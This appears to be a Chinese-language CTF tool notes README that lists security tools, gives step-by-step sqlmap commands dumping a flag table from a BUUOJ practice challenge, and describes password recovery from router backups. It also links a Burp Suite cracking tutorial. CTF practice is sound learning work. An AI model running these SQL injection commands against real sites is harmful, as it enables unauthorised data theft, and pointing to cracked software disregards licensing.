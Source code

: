 ## 工具


### SqlMap

### OWASP ZAP

### Burp Suite

破解教程：http://www.52pjb.net/xiazai/36163.html#xzdz

### Stegotools

作用：查看图像的隐写情况。

使用：在tools下运行```java -jar ./Stegsolve.jar```命令即可。

### GitHack

详情请见·```Githack```文件夹下的```README.md```

### SqlMap

使用步骤：
1. 查看数据库名称：
```
python sqlmap.py http://b1a4b711-121f-431c-a658-19db3107b04c.node4.buuoj.cn:81/index.php?id=1 --dbs
```
2. 查看目标数据库的表,note表示目标表。
```
python sqlmap.py http://b1a4b711-121f-431c-a658-19db3107b04c.node4.buuoj.cn:81/index.php?id=1 -D note --tables
```
3. 查看数据库表字段
```
python sqlmap.py http://b1a4b711-121f-431c-a658-19db3107b04c.node4.buuoj.cn:81/index.php?id=1 -D note --tables -T fl4g --columns
```

4. 查看目标字段的值
```
python sqlmap.py http://b1a4b711-121f-431c-a658-19db3107b04c.node4.buuoj.cn:81/index.php?id=1 -D note --tables -T fl4g -C f111ag --dump
```

最后得到```flag```。


### AZPR爆破工具

### BinWalk

### RoutePassView

题目：[荷兰宽带数据泄露问题](https://buuoj.cn/challenges#%E8%8D%B7%E5%85%B0%E5%AE%BD%E5%B8%A6%E6%95%B0%E6%8D%AE%E6%B3%84%E9%9C%B2)

RouterPassView是一个找回路由器密码的工具。大多数现代路由器允许备份到一个文件路由器的配置，然后从文件中恢复配置时的需要。路由器的备份文件通常包含了像ISP的用户名重要数据/密码，路由器的登录密码，无线网络的关键。如果失去了这些密码1 /钥匙，但仍然有路由器配置的备份文件，RouterPassView可以帮助你从你的路由器恢复您丢失密码的文件。

### 其他

1. F5隐写工具使用：https://zhuanlan.zhihu.com/p/480561261